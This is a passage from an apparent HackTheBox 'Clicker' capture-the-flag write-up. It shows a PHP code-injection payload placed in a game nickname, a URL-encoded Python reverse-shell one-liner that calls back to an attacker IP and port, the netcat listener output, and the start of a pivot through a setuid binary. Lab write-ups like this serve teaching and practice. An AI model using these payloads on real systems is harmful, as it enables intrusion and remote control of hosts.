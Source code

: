 ```
GET /save_game.php?nickname=%3C?=`$_GET[0]`?%3E HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=bj964h6lr5jsrdtg0idd1j9d9p
Upgrade-Insecure-Requests: 1

```

Next, I sent another request to `/export.php` with the extension changed to PHP. When I visited the export page, the PHP code we placed in our nickname was executed as valid PHP code, granting us code execution on the machine!
![clicker](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/clicker/9.png)

With code execution, I can obtain a simple reverse shell using this one-liner in Python 3
```
http://clicker.htb/exports/top_players_g2j4aced.php?0=export%20RHOST=%2210.10.14.52%22;export%20RPORT=9001;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27
```

```
┌──(root㉿dragon)-[~/htb/clicker/clicker.htb]
└─# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.52] from (UNKNOWN) [10.129.142.138] 46478
$ 
```

### Pivoting to Jack
While exploring the file system, I discovered a custom binary named 'execute_query,' which seems to be a utility for the web app's database.
```
$ pwd
/opt/manage

$ ls -la
total 28
drwxr-xr-x 2 jack jack  4096 Jul 21 22:29 .
drwxr-xr-x 3 root root  4096 Jul 20 10:00 ..
-rw-rw-r-- 1 jack jack   256 Jul 21 22:29 README.txt
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query

$ cat README.txt
Web application Management
```